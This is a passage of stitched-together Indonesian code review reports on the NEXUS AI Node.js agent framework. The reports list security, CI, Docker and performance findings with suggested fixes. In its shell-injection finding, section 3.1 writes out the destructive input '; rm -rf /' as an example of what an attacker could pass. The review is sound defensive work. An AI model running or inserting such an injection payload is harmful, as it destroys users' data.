    console.log(`🚀 Installing real Laravel...`);
    
    // This will be executed via run_command in the main flow
    return targetPath; // ← Tidak ada Composer, tidak ada installasi
}
```

Fungsi ini hanya membuat direktori kosong. Tidak ada `composer create-project` atau instalasi apapun. Komentar "will be executed via run_command" menunjukkan ini belum diimplementasikan.

**Dampak:** Siapapun yang memanggil `spawnRealLaravel()` mendapat direktori kosong tanpa Laravel.

**Solusi:** Implementasikan atau tandai sebagai `@throws`:
```js
async spawnRealLaravel(name) {
    throw new Error('spawnRealLaravel: Not yet implemented. Use spawnSandbox() with scenario "crud" instead.');
}
```

---

### 🟡 25 — `Distiller` Menginstansiasi `NativeBridge` yang Tidak Pernah Dipakai

**File:** `agent/core/Distiller.js`

**Masalah:**
```js
class Distiller {
    constructor(knowledgePath) {
        this.semanticEngine = new SemanticEngine(knowledgePath);
        this.native = new NativeBridge(path.join(knowledgePath, '..', '..')); // ← tidak pernah dipanggil
    }
}
```

`this.native` dideklarasikan tapi tidak ada satu pun method `Distiller` yang memanggilnya. Ini membuang memori dan membingungkan — apakah ada rencana integrasi C++ di Distiller yang belum diimplementasikan?

**Solusi:** Hapus baris `this.native = new NativeBridge(...)` sampai ada kebutuhan konkret, atau dokumentasikan tujuannya.

---

### 🟡 26 — `ExecutionPhase.getAvailablePort()`: Rekursi Tanpa Batas Atas

**File:** `agent/core/phases/ExecutionPhase.js`

**Masalah:**
```js
async getAvailablePort(start = 8001) {
    const net = require('net');
    return new Promise((resolve) => {
        const server = net.createServer();
        server.listen(start, () => {
            server.close(() => resolve(start));
        });
        server.on('error', () => {
            resolve(this.getAvailablePort(start + 1)); // ← rekursi tanpa batas
        });
    });
}
```

Jika semua port dari 8001 hingga 65535 terisi (sangat tidak mungkin tapi mungkin di lingkungan container yang terbatas), fungsi ini akan stack overflow. Juga tidak ada cara untuk menghentikan pencarian.

**Solusi:**
```js
async getAvailablePort(start = 8001, maxPort = 9000) {
    if (start > maxPort) throw new Error(`No available port found between 8001-${maxPort}`);
    // ... existing logic dengan maxPort check
}
```

---

### 🟡 27 — CI Tidak Test Redis/Ollama + `.env` dengan APP_KEY di Repo

**File:** `.github/workflows/ci.yml`, `agent/core/EvolutionPiper.js`, `.env`

**Masalah A — CI:**
```yaml
# ci.yml — tidak ada:
# services: redis: ...
# Ollama mock/stub
```

`npm test` dijalankan tanpa Redis atau Ollama. Karena `RedisMemory` dan `LocalIntelligence` keduanya memiliki graceful fallback (`return null`, `return false`), CI selalu hijau meskipun integrasi tersebut broken.

**Masalah B — APP_KEY hardcoded:**
```js
// EvolutionPiper.spawnSandbox() — hardcoded di source code:
{ name: '.env', content: 'APP_KEY=base64:DUMMYKEYDUMMYKEYDUMMYKEYDUMMYKEYDUMMYKEYDUMMY=' }
```

Laravel APP_KEY hardcoded di source code. Meskipun ini untuk sandbox test, key ini bisa disalahgunakan jika seseorang reuse untuk production.

**Solusi A:**
```yaml
# Tambahkan di ci.yml
services:
  redis:
    image: redis:7-alpine
    ports: ['6379:6379']
# Untuk Ollama: gunakan mock/stub di test environment
```

**Solusi B:**
```js
// Generate key dinamis:
const { execSync } = require('child_process');
const appKey = `base64:${require('crypto').randomBytes(32).toString('base64')}`;
{ name: '.env', content: `APP_KEY=${appKey}` }
```

---

## Rekap & Roadmap Perbaikan

### Phase 1 — Immediate (sebelum cycle berikutnya)
| No | Isu | Effort |
|----|-----|--------|
| 01 | Pecah prompt monolitik 2MB | 2-3 jam |
| 02 | Tambah timeout di `executeTask` | 30 menit |
| 03 | Fix `.exe` hardcode di `NativeBridge` | 15 menit |
| 04 | Fix path traversal di `SandboxExecutor` | 1 jam |
| 05 | Ganti `flushAll()` dengan namespace delete | 30 menit |
| 06 | Implementasi `_writeQueue` di `Logger` | 1 jam |

### Phase 2 — Sprint Berikutnya
| No | Isu | Effort |
|----|-----|--------|
| 07 | Lazy init `NexusEngine` | 3-4 jam |
| 08 | Fix `LocalIntelligence` singleton race | 1 jam |
| 09 | Circuit breaker Ollama | 2 jam |
| 10 | EventBus listener cleanup | 1 jam |
| 11 | Wire `AgentRegistry` ke Orchestrator | 2 jam |
| 12 | Persist `EvolutionPiper` cycle state | 1 jam |
| 13 | Async `WorktreeManager` | 1 jam |
| 14 | Tambah `pLimit` di `AuditPhase` | 30 menit |
| 15 | Zero-norm guard `cosineSimilarity` | 15 menit |
| 16 | Auto-connect `RedisMemory` | 30 menit |

### Phase 3 — Technical Debt
| No | Isu | Effort |
|----|-----|--------|
| 17 | Global timeout `runCycle` | 30 menit |
| 18 | Fix EventBus dedup key | 15 menit |
| 19 | Hapus duplicate semantic index | 1 jam |
| 20 | Tetapkan boundary MemoryGovernor/Pipeline | 2-3 jam |
| 21 | Konsistensi timestamp Contract.js | 15 menit |
| 22 | Dynamic legacy patterns | 1 jam |
| 23 | Hapus duplicate Orchestrator di main.js | 15 menit |
| 24 | Stub atau implementasikan spawnRealLaravel | 2-4 jam |
| 25 | Hapus unused NativeBridge di Distiller | 5 menit |
| 26 | Bounded recursion getAvailablePort | 15 menit |
| 27 | Fix CI + rotate hardcoded APP_KEY | 1 jam |

---

## Hal yang Sudah Baik ✅

Dokumentasi ini bukan sekadar daftar masalah. NEXUS AI memiliki beberapa keputusan arsitektur yang patut dipertahankan:

- **EventBus dengan schema validation** — event schema registry mencegah typo event name
- **Dead Letter Queue di Orchestrator** — task gagal tidak hilang begitu saja
- **Guardrail whitelist di LocalIntelligence** — task whitelist + output length cap
- **Versioned write di MemoryPipeline** — tidak ada data yang overwritten tanpa backup
- **Stale lock detection di MemoryGovernor** — lock file dengan TTL + PID tracking
- **ResourceMonitor tiered recommendation** — PROCEED/THROTTLE/PAUSE berdasarkan CPU+RAM
- **DecisionEngine weight profiles** — context-aware decision making yang extensible
- **Machinist path whitelist** — generated scanner tidak bisa menyentuh core engine
- **TaskProtocol dengan trace_id** — setiap task bisa di-trace end-to-end

---

*Report ini dihasilkan dari analisis statis terhadap source code NEXUS AI v3.3.0.*  
*Total file dianalisis: 27 | Total isu ditemukan: 27 | Critical: 6 | High: 10 | Medium: 11*


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, database, ui-ux, performance, tdd, vcs, saas, api]

### 📘 KNOWLEDGE: NEXUS_AI_CODE_REVIEW.MD

# 🤖 NEXUS AI — Laporan Code Review Komprehensif
> **VERSION**: v1 | **Last Updated**: 26/05/2026


**Tanggal Review:** 15 Mei 2026  
**Reviewer:** AI Engineering Assistant Senior  
**Versi Project:** 3.3.0  
**Klasifikasi:** Internal Engineering Report

---

## 1. RINGKASAN PROJECT

**Human-AI Nexus** adalah sebuah framework CLI (Command Line Interface) berbasis **Node.js** yang bertindak sebagai "otak" agentic untuk mengaudit, merencanakan, dan mengeksekusi perbaikan pada project lain (khususnya stack TALL: Tailwind, Alpine.js, Livewire, Laravel).

| Aspek | Detail |
|---|---|
| **Nama** | `human-ai-nexus` |
| **Versi** | `3.3.0` |
| **Runtime** | Node.js ≥ 16, dijalankan di Node 22 (Docker) |
| **Bahasa** | JavaScript (CommonJS) |
| **Framework** | Custom multi-agent framework (tanpa Express/NestJS) |
| **Entry Point** | `cli.js` → `agent/main.js` → `agent/core/NexusEngine.js` |
| **Containerisasi** | Docker + Docker Compose |
| **CI/CD** | GitHub Actions (`npm-publish.yml`) |
| **Testing** | Custom TDD runner (`tests/TDD/runner.js`) |
| **Dependensi Utama** | `axios`, `chalk`, `fs-extra`, `glob`, `natural`, `redis` |
| **AI Backend** | Ollama (lokal) via `http://localhost:11434` |
| **Memory** | Redis + file-based JSON/Markdown |

### Arsitektur Folder
```
NEXUS AI/
├── agent/
│   ├── core/            # Engine utama (NexusEngine, Orchestrator, dll)
│   ├── tools/           # Scanner & tool plugins
│   ├── prompts/         # Prompt agent (internal & external)
│   ├── workflows/       # Definisi workflow per agent
│   └── main.js          # Entry point agent
├── cli.js               # CLI dispatcher
├── tests/TDD/           # Unit & sandbox tests
├── documentation/       # Audit logs & mermaid diagrams
├── config/              # .env.example
├── .github/workflows/   # CI/CD pipeline
├── Dockerfile
└── docker-compose.yml
```

**Kekuatan Arsitektur:** Pemisahan yang jelas antara `core/`, `tools/`, `prompts/`, dan `workflows/` menunjukkan pemikiran modular yang matang. Penggunaan `EventBus` sebagai pub/sub backbone dan `DeadLetterQueue` menunjukkan pemahaman sistem distributed yang baik.

---

## 2. TEMUAN UTAMA

### 🔴 KRITIS
1. **`.env` ter-commit ke Git** — file `.env` dengan path sensitif (`/home/faisal/projects/...`) ada di dalam ZIP, artinya pernah atau masih di-track oleh Git.
2. **`SandboxExecutor` bukan sandbox nyata** — meski bernama "sandbox", eksekusi plugin dilakukan via `require()` langsung di process utama, bukan `vm.runInNewContext` atau Worker Thread sesungguhnya.
3. **`shell: true` pada `spawn()`** — di `cli.js` dan `NexusEngine.js`, penggunaan `shell: true` membuka potensi shell injection jika input berasal dari user/external.

### 🟠 PENTING
4. **`initRedis()` tanpa error handling** — jika Redis tidak tersedia, proses utama bisa crash diam-diam.
5. **`package-lock.json` tidak ada** — CI/CD menggunakan `npm ci` yang membutuhkan `package-lock.json`, ini akan selalu gagal.
6. **`docker-compose.yml` tidak memiliki `env_file`** — environment secrets tidak dimasukkan dengan aman ke container.
7. **CI/CD pipeline hanya trigger saat `release`** — tidak ada pipeline untuk `push` atau `pull_request`, sehingga tidak ada otomasi testing pada development sehari-hari.

### 🟡 PERLU PERHATIAN
8. **Logger menulis ulang seluruh array JSON setiap log entry** — performa I/O buruk saat log volume tinggi.
9. **Koneksi Redis dibuat satu kali global (singleton)** tanpa reconnect logic.
10. **`SemanticEngine` menggunakan TF-IDF lokal** yang diload ke memori seluruhnya — potensi memory bloat untuk knowledge base besar.

---

## 3. REVIEW KODE

### 3.1 `cli.js` — Entry Point

**Masalah ditemukan:**

```javascript
// ❌ MASALAH: shell: true + template literal dari args user
const child = spawn('node', [`"${enginePath}"`, ...cleanArgs], {
    stdio: 'inherit',
    shell: true  // ← Bahaya! Shell injection possible
});
```

`cleanArgs` berasal langsung dari `process.argv` user. Jika user memasukkan `; rm -rf /`, `shell: true` akan mengeksekusinya. Seharusnya:

```javascript
// ✅ Perbaikan: Gunakan array args tanpa shell
const child = spawn('node', [enginePath, ...cleanArgs], {
    stdio: 'inherit',
    shell: false  // ← Aman, args tidak diproses shell
});
```

**Kekuatan:** Struktur command dispatch (router `engineCommands`) rapi dan mudah diperluas.

---

### 3.2 `agent/core/NexusEngine.js` — Core Engine (1317 baris)

File ini terlalu besar. Single file 1317 baris melanggar prinsip Single Responsibility. Berikut masalah spesifik:

**a) `initRedis()` tanpa error handling:**
```javascript
async initRedis() {
    await redis.connect();        // ← Jika Redis down, throw tanpa catch
    await localAI.checkAvailability();
}
```
Akibatnya, jika Redis tidak aktif, NexusEngine gagal inisialisasi secara diam-diam (error tidak ditangkap di constructor karena `initRedis()` dipanggil tanpa `await` di constructor).

**b) `spawn` dengan `shell: true` di `cleanCodeAndVerify()`:**
```javascript
const serveProc = spawn('php', ['artisan', 'serve', '--port=8001'], 
    { cwd: projectPath, shell: true });  // ← projectPath dari user input
```
`projectPath` bisa dimanipulasi.

**c) `require()` di dalam loop/fungsi:**
```javascript
async blueprintApp(options = {}) {
    const LocalIntelligence = require('./LocalIntelligence'); // ← Inside method
    // ...
    const { spawn } = require('child_process'); // ← Inside loop
}
```
`require()` seharusnya di top-level file untuk kejelasan dependency dan performa.

**Kekuatan:** Design pattern state machine (`STATES: INIT, PROCESSING, EXECUTING...`) dan custom `NexusError` class sangat baik untuk traceability.

---

### 3.3 `agent/core/SandboxExecutor.js` — "Sandbox" yang Bukan Sandbox

```javascript
// ❌ Ini bukan sandbox nyata!
const plugin = require(pluginPath);  // ← Berjalan di process yang sama
const action = plugin.scan ? plugin.scan : plugin.execute;
Promise.resolve(action(args)).then(...);
```

Nama `SandboxExecutor` menyesatkan. Plugin yang di-require bisa:
- Mengakses `process.env` (termasuk secrets)
- Menulis ke filesystem sembarangan
- Melakukan network request
- Memanggil `process.exit()`

Jika benar-benar ingin isolated sandbox, harus menggunakan:
```javascript
// ✅ Opsi 1: Worker Threads (sudah ada import tapi tidak dipakai)
const { Worker } = require('worker_threads'); // ← Sudah di-import tapi tidak digunakan!

// ✅ Opsi 2: vm2 / isolated-vm library
```

**Ironi:** `Worker` sudah di-import di baris pertama file tapi tidak pernah digunakan.

---

### 3.4 `agent/core/EventBus.js` — Solid

EventBus adalah salah satu implementasi paling bersih di project ini:
- Schema registry (`EVENT_SCHEMA`) mencegah typo event name
- Deduplication dengan TTL 1 detik mencegah event storm
- Audit log untuk traceability

**Satu catatan:** Deduplication menggunakan `JSON.stringify(payload)` yang bisa salah untuk payload besar (object dengan property sama tapi order berbeda tidak akan ter-deduplicate).

---

### 3.5 `agent/core/Logger.js` — Performa I/O Buruk

```javascript
// ❌ Setiap log entry: baca seluruh file → push → tulis ulang seluruh file
let logs = [];
if (await fs.pathExists(logFile)) {
    logs = await fs.readJson(logFile);  // Baca seluruh array
}
logs.push(logEntry);
await fs.writeJson(logFile, logs, { spaces: 2 }); // Tulis ulang seluruh file
```

Untuk sistem dengan aktivitas tinggi, pola ini adalah bottleneck besar. Dengan 1000 log entries, setiap operasi baca-tulis semakin lambat. Solusi:
```javascript
// ✅ Gunakan append mode (NDJSON/newline-delimited JSON)
await fs.appendFile(logFile, JSON.stringify(logEntry) + '\n');
```

---

### 3.6 `agent/core/AgentRegistry.js` — Bagus

Implementasi yang solid dengan API yang jelas (`register`, `markBusy`, `markIdle`, `markFailed`, `getStuckAgents`). Deteksi "stuck agent" dengan threshold time adalah fitur production-grade yang baik.

---

### 3.7 `agent/core/SemanticEngine.js` — Fungsional, Ada Risk

- TF-IDF via `natural` library bekerja untuk use case ini
- Integrasi Ollama untuk embedding adalah pilihan baik (local-first AI)
- Redis caching untuk search results (TTL 30 menit) efisien

**Risiko:** `buildIndex()` membaca semua file knowledge ke memori sekaligus. Untuk knowledge base besar (>500 files), ini bisa menyebabkan OOM.

---

### 3.8 `agent/core/MemoryPipeline.js` — Solid

`versionedWrite()` (backup sebelum overwrite) adalah pattern yang sangat baik untuk mencegah data loss. Ini menunjukkan kesadaran terhadap integritas data.

---

## 4. REVIEW PIPELINE

### 4.1 GitHub Actions (`.github/workflows/npm-publish.yml`)

```yaml
on:
  release:
    types: [created]  # ← HANYA trigger saat release dibuat
```

**Masalah Kritis:**
- **Tidak ada pipeline untuk `push` / `pull_request`** — setiap commit ke `main` tidak otomatis ditest
- **`npm ci` akan gagal** karena tidak ada `package-lock.json` di repository (dicek dari `.gitignore` dan ZIP content)
- **Tidak ada caching** untuk `node_modules` — setiap run install ulang dari awal (lambat)
- **Dua job (`build` dan `publish-npm`) melakukan `npm ci` dua kali** — duplikasi tidak perlu

**Saran perbaikan pipeline:**
```yaml
on:
  push:
    branches: [main, develop]
  pull_request:
    branches: [main]

jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - uses: actions/setup-node@v4
        with:
          node-version: 20
          cache: 'npm'           # ← Cache node_modules
      - run: npm ci
      - run: npm test
      - run: npm run lint        # ← Tambahkan lint

  publish-npm:
    needs: test
    if: github.event_name == 'release'
    # ...
```

### 4.2 Docker

**Masalah di `Dockerfile`:**
```dockerfile
COPY . .  # ← Menyalin .env ke container jika tidak ada di .dockerignore
```

`.dockerignore` memang sudah ada dan mencantumkan `.env`, **tapi** `docker-compose.yml` tidak menggunakan `env_file` atau Docker Secrets:
```yaml
# ❌ Tidak ada env_file atau secrets di docker-compose
environment:
  - NEXUS_MODE=autonomous  # Hanya hardcode ini
```

**Tidak ada health check** di `docker-compose.yml`:
```yaml
# ✅ Tambahkan:
healthcheck:
  test: ["CMD", "node", "-e", "require('./cli.js')"]
  interval: 30s
  timeout: 10s
  retries: 3
```

**Versi Dockerfile vs `package.json` tidak sinkron:**
- Dockerfile: `node:22-alpine`, label `version="3.1.0"`
- `package.json`: versi `3.3.0`

### 4.3 Testing

**Positif:** Ada struktur test di `tests/TDD/` dengan beberapa test file.

**Masalah:**
- Test runner custom (`runner.js`) tidak menggunakan framework standar (Jest/Mocha) — maintainability rendah
- **Tidak ada perintah lint** di `package.json`
- **Tidak ada code coverage** reporting
- Test hanya di `tests/TDD/` — tidak ada integration test untuk CLI end-to-end
- `tests/sandboxes/` menyertakan direktori `vendor/` PHP — **ini tidak boleh ada di repository** (berat, tidak relevan untuk Node project)

---

## 5. SECURITY & PERFORMANCE CHECK

### 🔴 SECURITY ISSUES

| # | Severity | Lokasi | Deskripsi |
|---|---|---|---|
| S1 | CRITICAL | `cli.js:23` | `spawn(..., {shell: true})` dengan user args — Shell Injection |
| S2 | CRITICAL | `.env` | File `.env` dengan personal path ada dalam ZIP (pernah/masih di-track Git) |
| S3 | HIGH | `SandboxExecutor.js` | Plugin berjalan di proses utama, bisa akses `process.env` dan secrets |
| S4 | HIGH | `NexusEngine.js:854-855` | `spawn(..., {shell: true})` dengan `projectPath` dari user input |
| S5 | MEDIUM | `docker-compose.yml` | Tidak ada network isolation — container bisa akses semua network |
| S6 | MEDIUM | `config/.env.example` | File `.env.example` hampir kosong (hanya 70 bytes), tidak mendokumentasikan semua env vars yang dibutuhkan |
| S7 | LOW | `.env:5` | Path absolut personal developer (`/home/faisal/...`) ter-commit |

### 🟠 PERFORMANCE ISSUES

| # | Severity | Lokasi | Deskripsi |
|---|---|---|---|
| P1 | HIGH | `Logger.js` | Read-entire-array + rewrite setiap log entry — O(n) I/O per log |
| P2 | HIGH | `SemanticEngine.js` | `buildIndex()` memuat semua files ke RAM sekaligus |
| P3 | MEDIUM | `NexusEngine.js` | Tidak ada connection pooling untuk axios HTTP calls |
| P4 | MEDIUM | `cleanCodeAndVerify()` | Loop spawn 5x dengan `setTimeout(8000)` = minimal 40 detik blocking |
| P5 | LOW | `EventBus.js` | `JSON.stringify(payload)` di setiap event untuk deduplication overhead |

---

## 6. SARAN PERBAIKAN PRIORITAS TINGGI

### P1: Perbaiki Shell Injection di `cli.js`

```javascript
// SEBELUM (❌)
const child = spawn('node', [`"${enginePath}"`, ...cleanArgs], {
    shell: true
});

// SESUDAH (✅)
const child = spawn('node', [enginePath, ...cleanArgs], {
    shell: false
});
```

### P2: Rotasi `.env` dan Tambahkan ke `.gitignore` dengan Benar

```bash
# Cek apakah .env masih di-track Git
git ls-files --error-unmatch .env

# Jika ya, hapus dari tracking
git rm --cached .env
echo ".env" >> .gitignore
git commit -m "chore: remove .env from git tracking"
```

Karena `.env` pernah ter-commit, buat secret rotation untuk `APP_KEY` dan `DB_PASSWORD`.

### P3: Perbaiki `package-lock.json`

```bash
npm install  # Generate package-lock.json
git add package-lock.json
git commit -m "chore: add package-lock.json for reproducible builds"
```

CI/CD `npm ci` **akan selalu gagal** tanpa ini.

### P4: Tambahkan Pipeline CI untuk `push` / `pull_request`

Ganti trigger di `npm-publish.yml` (atau buat file baru `ci.yml`) agar testing berjalan di setiap commit, bukan hanya saat release.

### P5: Perbaiki `SandboxExecutor` — Gunakan Worker Thread Nyata

```javascript
const { Worker, isMainThread, parentPort, workerData } = require('worker_threads');

execute(pluginPath, args, options = {}) {
    return new Promise((resolve, reject) => {
        const worker = new Worker(`
            const { workerData, parentPort } = require('worker_threads');
            const plugin = require(workerData.pluginPath);
            const action = plugin.scan || plugin.execute;
            Promise.resolve(action(workerData.args))
                .then(r => parentPort.postMessage({ ok: true, result: r }))
                .catch(e => parentPort.postMessage({ ok: false, error: e.message }));
        `, { eval: true, workerData: { pluginPath, args } });
        
        const timer = setTimeout(() => { worker.terminate(); reject(new Error('Timeout')); }, timeout);
        worker.on('message', (msg) => {
            clearTimeout(timer);
            msg.ok ? resolve(msg.result) : reject(new Error(msg.error));
        });
    });
}
```

---

## 7. SARAN PERBAIKAN PRIORITAS MENENGAH

### M1: Refactor `Logger.js` — Gunakan Append Mode

```javascript
// Ganti baca-tulis-ulang array dengan append NDJSON
async log(category, level, agent, task_id, event, message, duration_ms = 0, metadata = {}, trace_id = 'N/A') {
    const logEntry = { trace_id, timestamp: NexusClock.getISOTimestamp(), level, agent, task_id, event, message, duration_ms, metadata };
    const logFile = path.join(this.logPath, category, `${NexusClock.getDateString()}.ndjson`);
    await fs.ensureDir(path.dirname(logFile));
    await fs.appendFile(logFile, JSON.stringify(logEntry) + '\n');
}
```

### M2: Pisah `NexusEngine.js` Menjadi Modul Terpisah

File 1317 baris perlu dipecah. Saran:
```
agent/core/
├── NexusEngine.js        # Hanya bootstrap + koordinasi (< 200 baris)
├── AuditPhase.js         # Logic audit()
├── PlanningPhase.js      # Logic plan()
├── ExecutionPhase.js     # Logic execute()
├── HarvestPhase.js       # Logic harvest(), massRefactor()
└── StatusReporter.js     # Logic getSystemStatus()
```

### M3: Tambahkan `env_file` ke `docker-compose.yml`

```yaml
services:
  nexus-ai:
    build: .
    env_file:
      - .env               # ← Load dari .env file
    environment:
      - NEXUS_MODE=autonomous  # Override jika perlu
```

### M4: Perbaiki `initRedis()` — Graceful Degradation

```javascript
async initRedis() {
    try {
        await redis.connect();
        this.log('✅ Redis connected.', 'success');
    } catch (e) {
        this.log(`⚠️  Redis unavailable: ${e.message}. Running in file-only mode.`, 'warning');
        this.useRedis = false;  // Flag untuk skip Redis calls
    }
    
    try {
        await localAI.checkAvailability();
    } catch (e) {
        this.log(`⚠️  Ollama unavailable: ${e.message}. AI features disabled.`, 'warning');
        this.useLocalAI = false;
    }
}
```

### M5: Tambahkan ESLint + Format Standard

```bash
npm install --save-dev eslint eslint-config-standard
```

Buat `.eslintrc.json`:
```json
{
  "extends": "standard",
  "rules": {
    "no-eval": "error",
    "no-new-func": "error"
  }
}
```

Tambahkan ke `package.json`:
```json
"scripts": {
  "lint": "eslint agent/ cli.js tests/TDD/*.js"
}
```

### M6: Lengkapi `.env.example`

File `.env.example` saat ini hampir kosong (70 bytes). Dokumentasikan semua env vars:
```bash
# Runtime
NODE_ENV=development

# Project
PROJECT_PATH=./             # Path ke project yang diaudit

# Redis (opsional — fallback ke file-based jika tidak ada)
REDIS_URL=redis://localhost:6379

# Ollama AI (opsional — fallback ke TF-IDF jika tidak ada)
OLLAMA_BASE_URL=http://localhost:11434/api
OLLAMA_MODEL=nomic-embed-text

# Nexus
NEXUS_MODE=learning         # learning | efficient | autonomous
```

### M7: Hapus `tests/sandboxes/vendor/` dari Repository

Direktori `tests/sandboxes/url-shortener/vendor/` berisi ratusan file PHP vendor yang tidak relevan dengan Node.js project ini dan membuat repository sangat berat. Tambahkan ke `.gitignore`:
```
tests/sandboxes/*/vendor/
tests/sandboxes/*/node_modules/
```

---

## 8. SARAN PERBAIKAN JANGKA PANJANG

### L1: Migrasi ke Framework Test Standar (Jest)

Test runner custom (`runner.js`) sulit di-maintain. Migrasi ke Jest memberikan:
- Coverage report otomatis
- Watch mode untuk TDD
- Snapshot testing
- Integrasi CI lebih mudah

```bash
npm install --save-dev jest
```

### L2: Implementasi Proper Plugin Isolation dengan `isolated-vm`

Untuk multi-tenant atau execution agent yang benar-benar aman:
```bash
npm install isolated-vm
```

Library ini memberikan V8 isolate yang benar-benar isolated (memory, CPU limit, no shared globals).

### L3: Pertimbangkan TypeScript untuk Core Modules

Mengingat kompleksitas arsitektur (20+ modul yang saling berinteraksi), TypeScript akan sangat membantu:
- Type safety untuk `EventBus` schema
- IntelliSense untuk `NexusEngine` methods
- Refactoring lebih aman

Minimal, tambahkan JSDoc untuk tipe pada fungsi-fungsi utama.

### L4: Implementasi Metrics & Observability

Saat ini metrics hanya disimpan di `this.metrics` in-memory. Untuk production:
- Eksport ke Prometheus/Grafana
- Atau minimal structured JSON metrics per cycle
- Tambahkan alert threshold (contoh: "jika MemoryGovernor trim > 50 files/jam, kirim notifikasi")

### L5: Optimasi SemanticEngine untuk Scale

Untuk knowledge base > 200 files, pertimbangkan:
- Incremental index build (hanya index file yang berubah)
- Persistent index ke disk (tidak rebuild setiap start)
- Paginated search untuk hasil banyak

### L6: Standardisasi Logging dengan Structured Log Format

Saat ini log disimpan sebagai JSON array per hari. Pertimbangkan migrasi ke structured logging library (`pino` atau `winston`) yang mendukung:
- Log rotation otomatis
- Stream ke external service (Loki, CloudWatch)
- Log level environment-based

### L7: Tambahkan Network Policy di Docker Compose

```yaml
services:
  nexus-ai:
    networks:
      - internal

  redis:
    networks:
      - internal

networks:
  internal:
    driver: bridge
    internal: true  # Blokir akses ke internet dari container
```

---

## 9. CHECKLIST TINDAKAN YANG BISA LANGSUNG DIKERJAKAN

### Hari Ini (< 1 jam)
- [ ] `git rm --cached .env && git commit -m "chore: untrack .env"` — cabut .env dari git tracking
- [ ] Rotate `APP_KEY` dan `DB_PASSWORD` yang mungkin sudah ter-expose
- [ ] `npm install` untuk generate `package-lock.json`, lalu commit
- [ ] Update `package.json` label versi: Dockerfile masih `3.1.0`, package.json `3.3.0` — sinkronkan

### Minggu Ini (< 1 hari kerja)
- [ ] Perbaiki `shell: true` → `shell: false` di `cli.js` dan `NexusEngine.js`
- [ ] Tambahkan try-catch di `initRedis()` dengan graceful degradation
- [ ] Perbaiki `SandboxExecutor.js` untuk menggunakan Worker Thread yang sudah di-import
- [ ] Tambahkan CI pipeline untuk `push`/`pull_request` di GitHub Actions
- [ ] Lengkapi `.env.example` dengan semua variable yang dibutuhkan
- [ ] Tambahkan `env_file` ke `docker-compose.yml`
- [ ] Tambahkan health check ke `docker-compose.yml`
- [ ] Pindahkan `require()` yang ada di dalam method ke top-level file

### Bulan Ini (sprint 1-2)
- [ ] Refactor `NexusEngine.js` (1317 baris) menjadi modul terpisah per phase
- [ ] Perbaiki `Logger.js` dari read-rewrite ke append mode
- [ ] Tambahkan ESLint ke project dan perbaiki semua warning
- [ ] Hapus `tests/sandboxes/vendor/` dari repository
- [ ] Tambahkan `npm run lint` ke CI pipeline
- [ ] Setup Jest sebagai test runner pengganti custom runner

---

## 10. KESIMPULAN SINGKAT

NEXUS AI adalah project dengan **ambisi arsitektur yang tinggi** dan beberapa implementasi yang genuinely solid — EventBus dengan schema registry, AgentRegistry dengan stuck detection, MemoryPipeline dengan versioned write, dan Dead Letter Queue adalah contoh engineering yang matang.

**Namun**, ada **3 area kritis** yang harus ditangani segera sebelum production deployment:

1. **Keamanan** — Shell injection via `shell: true`, `.env` yang pernah ter-track Git, dan "sandbox" yang bukan sandbox nyata membuat postur keamanan project lemah.

2. **CI/CD yang broken** — Pipeline tidak akan berjalan karena `package-lock.json` tidak ada, dan coverage development sehari-hari nol karena pipeline hanya trigger saat `release`.

3. **Technical debt pada NexusEngine.js** — File 1317 baris yang melakukan terlalu banyak hal akan menjadi bottleneck maintainability seiring project berkembang.

**Perkiraan effort perbaikan kritis:** 2-3 hari kerja untuk security fixes dan CI/CD. Refactoring NexusEngine bisa dilakukan secara bertahap dalam 1-2 sprint.

---

*Laporan ini dibuat berdasarkan review statis kode. Beberapa temuan mungkin memiliki konteks runtime yang berbeda. Tandai sebagai asumsi: (1) `package-lock.json` tidak ada — tidak terlihat dalam ZIP; (2) Redis diasumsikan optional berdasarkan code pattern.*


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, database, ui-ux, performance, tdd, vcs, saas, api]

### 📘 KNOWLEDGE: NEXUS_AI_V2_CODE_REVIEW.MD

# 🤖 NEXUS AI v3.3.0 — Laporan Code Review Komprehensif (Iterasi 2)
> **VERSION**: v1 | **Last Updated**: 26/05/2026


**Tanggal Review:** 16 Mei 2026
**Reviewer:** AI Engineering Assistant Senior
**ZIP:** `NEXUS_AI.zip` (upload terbaru)
**Klasifikasi:** Internal Engineering Report — Delta Review dari v3.3.0 (ZIP 1) ke v3.3.0 (ZIP 2)

---

## 1. RINGKASAN PROJECT

| Aspek | Detail |
|---|---|
| **Nama** | `human-ai-nexus` |
| **Versi** | `3.3.0` (main) / `3.0.0` (NEXUS_PUBLIC_DISTRIBUTION) ⚠️ |
| **Runtime** | Node.js ≥ 16, Docker: `node:22-alpine` |
| **Bahasa** | JavaScript (CommonJS) |
| **Entry Point** | `cli.js → agent/main.js → NexusEngine.js` |
| **CI/CD** | GitHub Actions: `ci.yml` (push/PR) + `npm-publish.yml` (release) |
| **Testing** | Custom TDD runner (`tests/TDD/runner.js`) |
| **Dependensi Baru** | `llamaindex ^0.12.1`, `fast-glob ^3.3.3`, `p-limit ^7.3.0` |
| **AI Backend** | Ollama (lokal) + LlamaIndex |
| **Memory** | Redis + NDJSON file-based |

### Arsitektur Folder (Versi Terbaru)
```
NEXUS AI/
├── agent/
│   ├── core/
│   │   ├── phases/          # ✅ BARU — AuditPhase, PlanningPhase, ExecutionPhase, KnowledgePhase
│   │   ├── NexusEngine.js   # ✅ Dipangkas dari 1317 → 384 baris
│   │   ├── DecisionEngine.js # ✅ BARU — AI conflict resolver
│   │   ├── EvolutionPiper.js # ✅ BARU — PBL cycle manager + guardrails
│   │   ├── Machinist.js      # ✅ BARU — Plugin forge dengan path whitelist
│   │   ├── NativeBridge.js   # ✅ BARU — C++/Python IPC bridge
│   │   ├── ParallelRunner.js # ✅ BARU — Concurrency controller
│   │   ├── ResourceMonitor.js # ✅ BARU — CPU/RAM monitoring
│   │   └── SandboxExecutor.js # ✅ DIPERBAIKI — Worker Thread nyata
│   ├── tools/               # Scanner & specialist tools
│   ├── prompts/             # Internal & external agent prompts
│   └── workflows/           # Workflow definitions per agent
├── NEXUS_PUBLIC_DISTRIBUTION/ # Versi distribusi publik
├── .github/workflows/
│   ├── ci.yml               # ✅ BARU — CI untuk push/PR
│   └── npm-publish.yml      # Pipeline release
├── .eslintrc.json            # ✅ BARU — ESLint standard config
├── package-lock.json         # ✅ BARU — Reproducible builds
├── Dockerfile                # ✅ Versi sinkron: 3.3.0
